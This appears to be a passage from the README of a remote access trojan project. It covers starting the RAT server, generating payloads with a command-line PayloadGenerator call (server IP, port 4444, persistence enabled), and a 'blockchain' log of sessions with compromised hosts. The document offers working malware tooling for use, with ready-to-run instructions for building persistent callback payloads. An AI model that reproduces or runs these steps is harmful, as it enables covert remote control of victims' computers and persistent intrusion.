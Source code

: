 #### Start RAT Server
```bash
python3 rat_server_fixed.py
```

### Generate Payload

#### Using GUI
1. Start RAT server
2. Click "Generate Payload" button
3. Configure settings
4. Save payload file

#### Using Command Line
```python
from payload_generator import PayloadGenerator

gen = PayloadGenerator()
result = gen.generate_payload(
    server_ip="192.168.1.100",
    server_port=4444,
    output_file="payload.py",
    persistence=True,
    blockchain_enabled=True
)
print(result)
```

## Blockchain Session Persistence

### How It Works

The blockchain session persistence system records all session events in an immutable blockchain structure:

1. **Session Initialization**: When a payload connects, a genesis block is created
2. **Event Recording**: Every command, connection, and action is recorded as a block
3. **Chain Verification**: The blockchain can be verified for integrity
4. **Persistence**: Blockchain is saved to disk and can be restored
5. **Synchronization**: Clients sync their local blockchain to the server

### Blockchain Structure

Each block contains:
- **Index**: Sequential block number
- **Timestamp**: When the event occurred
- **Session ID**: Unique identifier for the session
- **Event Type**: Type of event (connection, command, etc.)
- **Data**: Event-specific data
- **Previous Hash**: Hash of the previous block
- **Hash**: SHA-256 hash of the current block
